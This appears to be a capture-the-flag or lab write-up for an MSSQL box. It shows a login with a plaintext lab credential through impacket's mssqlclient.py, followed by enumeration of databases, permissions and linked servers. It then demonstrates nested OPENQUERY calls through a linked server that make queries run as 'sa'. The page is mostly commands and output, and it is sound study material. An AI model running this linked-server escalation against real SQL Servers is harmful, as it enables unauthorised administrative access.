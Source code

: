>[!bug] Connect to the database using the credentials
>- Im using [`mssqlclient.py`](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) from `impacket`
```sh
mssqlclient.py external_user:#p00Public3xt3rnalUs3r#@10.13.38.11
```
>[!bug] Start enumerating using `sysdatabases`
```sql
select name from sysdatabases;
```
>[!bug] Check current user privileges
```sql
select permission_name FROM fn_my_permissions(null, 'server');
```
>[!important] We can connect to other databases
```sql
CONNECT SQL
```
>[!bug] Enumerate the available servers
```sql
select srvname from sysservers;
```
>[!tip] `POO_CONFIG` is available
```
COMPATIBILITY\POO_CONFIG

COMPATIBILITY\POO_PUBLIC
```
>[!bug] Check if you can sent queries to the external server
```sql
select * from openquery([compatibility\poo_config], 'select @@servername;');
```
>[!important] The command was successful
```
------------------------
COMPATIBILITY\POO_CONFIG
```
>[!bug] Check which user in running commands on `POO_CONFIG`
```sql
select * from openquery([compatibility\poo_config], 'select suser_name();');
```
>[!important] This time is the internal user
```
-------------
internal_user
```
>[!info]
>- `internal_user` have the same permissions than `external_user`
```
CONNECT SQL
```
>[!danger] Execute a query from the `poo_public` server that runs a query on the `poo_config` server, which in turn executes another query back on the `poo_public` server
```sql
SELECT * FROM OPENQUERY([compatibility\poo_config], 'SELECT * FROM OPENQUERY([compatibility\poo_public], ''SELECT @@servername;'')');
```
>[!important] It works!
```
------------------------
COMPATIBILITY\POO_PUBLIC
```
>[!bug] But this time who run the query from `POO_CONFIG` is the user `sa`
```sql
SELECT * FROM OPENQUERY([compatibility\poo_config], 'SELECT * FROM OPENQUERY([compatibility\poo_public], ''select suser_name();'')');

--
sa
```